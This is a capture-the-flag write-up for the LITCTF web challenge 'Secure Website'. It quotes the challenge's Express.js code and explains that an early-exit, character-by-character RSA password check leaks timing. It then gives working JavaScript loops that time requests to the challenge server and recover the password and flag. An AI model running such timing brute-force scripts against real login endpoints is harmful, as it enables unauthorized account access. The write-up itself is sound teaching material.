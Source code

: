 # web/Secure Website

## Challenge

I have like so many things that I want to do, but I am not sure if I want others to see them yet D: I guess I will just hide all the super important stuff behind my super super fortified and secure [Password Checker](http://litctf.live:31776/)!

[SecureWebsite.zip](https://drive.google.com/uc?export=download&id=1ixlV54JoFOGziLzlOewPBijbtePZo8SI)

## Solution

### Analysis

This is an interesting one! Looking in `main.js`, we see our main and only target:
```js
var flag = (process.env.FLAG ?? "ctf{flag}");
// I like alphanumeric passwords
var password = (process.env.password ?? "password");

/* ... standard Express.js stuff */

app.get('/verify', (req, res) => {
	var pass = req.query.password;
	if(pass == undefined || typeof(pass) !== 'string' || !checkPassword(password,pass)) {
		res.writeHead(302, {'Location': 'https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley'});
		res.end();
		return;
	}
	res.render("secret",{flag: flag});
});
```

Hm... to simple and standard to exploit here. We'll look at `checkPassword()` in `passwordChecker.js`:
```js
// I think this is how you're supposed to implement RSA?
// IDK this is a web challenge not a crypto challenge :clown:
// I just picked 2 random prime numbers as the tutorial said
// (Or is it 0_0)

/* ... blah blah some standard RSA code */

function checkPassword(password,pass) {
	var arr = pass.split(",");
	for(var i = 0;i < arr.length;++i) {
		arr[i] = parseInt(arr[i]);
	}

	if(arr.length != password.length) return false;
	for(var i = 0;i < arr.length;++i) {
		var currentChar = password.charCodeAt(i);
		var currentInput = decryptRSA(arr[i]);
		if(currentChar != currentInput) return false;
	}
	return true;
}
```
...well, that's interesting. As the top of the file hints, the RSA decryption is basic and standard, and we're given all public and private values so it's basically pointless.

But it's used weirdly... each _individual_ character is decrypted, one at a time, and the moment there's a mismatch, the function returns `false`. So it's seemingly even more pointless...

Except it seems there's really nowhere to exploit. `pass` must be a string, so we can't inject anything into this function. `NaN` won't break anything either.

But comparing strings character-by-character with an inefficient process that returns as soon as a mismatch is found? This sounds like a <u>timing attack</u>!

### Attack

For reference, how the password is encoded for transmission (`views/index.ejs`):
```js
function submitForm() {
    var pwd = $("#password").val();
    var arr = [];
    for(var i = 0;i < pwd.length;++i) {
        arr.push(encryptRSA(pwd.charCodeAt(i)));
    }
    window.location.href = "/verify?password=" + arr.join();
    return;
}
```
Since `checkPassword()` first checks lengths, we need to find the password length first before guessing characters:
```js
(async () => {
    for (let i = 0; i <= 10; ++i) {
        const pwd = "a".repeat(i);
        const q = pwd.split("").map(c=>encryptRSA(c.charCodeAt(0))).join(); // arr.join()
        const t = performance.now(); // timing start
        await fetch(`http://litctf.live:31776/verify?password=${q}`, {
            "method": "GET",
            "redirect": "manual", // to ignore the redirect
        });
        console.log(pwd, performance.now()-t); // timing end
        await new Promise(resolve => setTimeout(resolve, 2000)); // timeout to avoid rate limits
    }
})()
```
Rate limits were a bit annoying - they can show up as `429 Too Many Requests`, but they also randomly increase timings with no errors. However, looking at results, it's obvious whether rate limits affected it.

![](./timing.png)
Oh, yeah. The first request is always much slower for some reason, but the password isn't gonna be one character, right???

But anyway, hooray! `aaaaaa` has a clear difference! And the rest are almost constant, no need to average trials. We move on:
```js
(async () => {
    for (let c of "AABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz") {
        const pwd = `${c}aaaaa`;
/* the same thing */
```
(The first letter is to avoid the slow first request.)

But yay! `Caaaaa` has a significant difference (~1024 vs ~200), and we move on, testing `C${c}aaaa` and so on. (It's only 6 characters total, so it's not worthy to automate, especially since random outliers rarely appear.)

4 more rounds later (with requests taking longer and longer), we get `CxIj6_`. The last character is tricky, because a success won't mean another character check; instead, we will get sent to the flag!
```js
await (async () => {
    for (let c of "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz") {
        const pwd = `CxIj6${c}`;
        const q = pwd.split("").map(c=>encryptRSA(c.charCodeAt(0))).join();
        try {
            const res = await fetch(`http://litctf.live:31776/verify?password=${q}`, {
                "method": "GET",
                "redirect": "error", // so only the correct one doesn't error
            });
            return await res.text();
        } catch {}
        console.log(pwd, "failed");
        await new Promise(resolve => setTimeout(resolve, 2000));
    }
})()
```
And for `CxIj6p`...
![](./secret.png)
Yay!

## Flag

`LITCTF{uwu_st3ph4ni3_i5_s0_0rz_0rz_0TZ}`
